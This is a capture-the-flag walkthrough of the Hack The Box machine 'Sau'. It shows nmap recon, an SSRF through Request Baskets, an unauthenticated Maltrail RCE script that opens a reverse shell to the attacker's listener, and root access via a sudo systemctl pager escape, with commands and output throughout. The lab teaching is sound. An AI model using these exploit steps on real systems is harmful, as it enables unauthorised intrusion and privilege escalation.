




## Overview
Sau is an easy rated Linux machine on Hack The Box that is vulnerable to an SSRF exploit, and unauthorised RCE through a vulnerable internal web service.

## Recon
Firstly, we start by running an nmap scan on the target IP with the command: `nmap -vv -Pn -T4 -sCV [target IP]`
- `-vv` to increase nmap scan verbosity
- `-Pn` to disable host discovery
- `-T4` to increase scan speed
- `-sCV` to enumerate service version/information and enable common script scans

```
/Downloads/htb/Sau ❯ nmap -vv -Pn -T4 -sCV 10.10.11.224
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 18:35 AEST
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.016s latency)
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
55555/tcp open     unknown syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 04 Aug 2023 08:36:02 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 04 Aug 2023 08:35:36 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 04 Aug 2023 08:35:36 GMT
|_    Content-Length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 89.57 seconds
```
From our Nmap scan, we can see that there are three open ports: 22, 80 and 55555. Port 80 is filtered with no response from the scan, and is inaccessible via web browser (which tells me that it may be an SSRF exploit, or may require port forwarding after gaining low level system access).

## Port 55555
We'll move onto exploring port 55555, and discover that it is accessible via web browser, and displays the Request Baskets web application.

The first step here is to search Google for Request Baskets exploits. Our search reveals the following page with an SSRF exploit POC:
[request-baskets SSRF details - CodiMD (sjtu.edu.cn)](https://notes.sjtu.edu.cn/s/MUUhEymt7).

Reading this page shows that Request Baskets is indeed vulnerable to SSRF:

Following the instructions on this page, we will open Burp Suite, then create a new basket on the Request Baskets page and capture the HTML request.
We will however change parts of the payload to be: 
- `"forward_url": "http://127.0.0.1:80"` 
- `"proxy_response": true`

which will forward the web application at `http://127.0.0.1:80` to us in the web browser.

We then open the newly created basket and are presented with a URL that is configured to respond with our custom payload.


If we visit this URL (`http://10.10.11.224:55555/exploit`) in our web browser, we can see that we have been redirected to a new web page: the web application located at port 80, that was inaccessible to us earlier.


We now need to run a Google search for Maltrail v0.53 exploits. The search leads us to the page: [spookier/Maltrail-v0.53-Exploit (github.com)](https://github.com/spookier/Maltrail-v0.53-Exploit) and a POC for an unauthenticated RCE exploit.
We then download the exploit python file and run it from our local terminal, while listening on the chosen port (1234 in this instance):

```
~/Downloads/htb/Sau ❯ python3 maltrail.py 10.10.14.35 1234 http://10.10.11.224:55555/test/login
Running exploit on http://10.10.11.224:55555/test/login
```

```
~/Downloads/htb/Sau ❯ nc -nlvp 1234                                           1m 16s 21:03:41
listening on [any] 1234 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.224] 42822
$ id 
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```
As we can see, we've received a reverse shell as a low level user "Puma".
We can upgrade to a fully interactive shell using:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then navigate to the /home/puma/ folder and get the user flag:

```
puma@sau:/opt/maltrail$ cd
cd
puma@sau:~$ ls -lah
ls -lah
total 32K
drwxr-xr-x 4 puma puma 4.0K Jun 19 12:25 .
drwxr-xr-x 3 root root 4.0K Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3.7K Feb 25  2020 .bashrc
drwx------ 2 puma puma 4.0K Apr 15 09:42 .cache
drwx------ 3 puma puma 4.0K Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug  4 04:51 user.txt
puma@sau:~$ cat user.txt
```
## Privilege Escalation
Our focus now switches to privilege escalation so that we can gain administrative permissions on the system.
We could transfer and run the Linpeas script, but it is a good idea to test some simple PrivEsc techniques first.
Running `sudo -l` reveals that user puma can run a command as root:

```
puma@sau:~$ sudo -l 
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This is a promising vector, and a visit to the [Systemctl page at GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) explains the simplicity of privilege escalation in this situation (Sudo, section (c)).
When we run `sudo /usr/bin/systemctl status trail.service`, we can see that it is printed with a pager (like the less binary), which we can escape into an elevated shell with `!sh`:

```
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2023-08-04 04:51:25 UTC; 6h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 892 (python3)
      Tasks: 25 (limit: 4662)
     Memory: 49.2M
     CGroup: /system.slice/trail.service
             ├─ 892 /usr/bin/python3 server.py
             ├─1206 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1212 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1215 sh
             ├─1216 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1217 /bin/sh
             ├─1228 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1229 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1232 sh
             ├─1233 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1234 /bin/sh
             ├─1239 sudo /usr/bin/systemctl status trail.service !sh
             ├─1760 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
             ├─1761 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed p>
lines 1-23!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

We have root!

We can now navigate to the root user's home folder and get the root flag:

```
# cd /root
cd /root
# ls     
ls
go  root.txt
# cat root.txt
```

Done!


If you like this content and would like to see more, please consider [buying me a coffee](https://bmc.link/otsx)!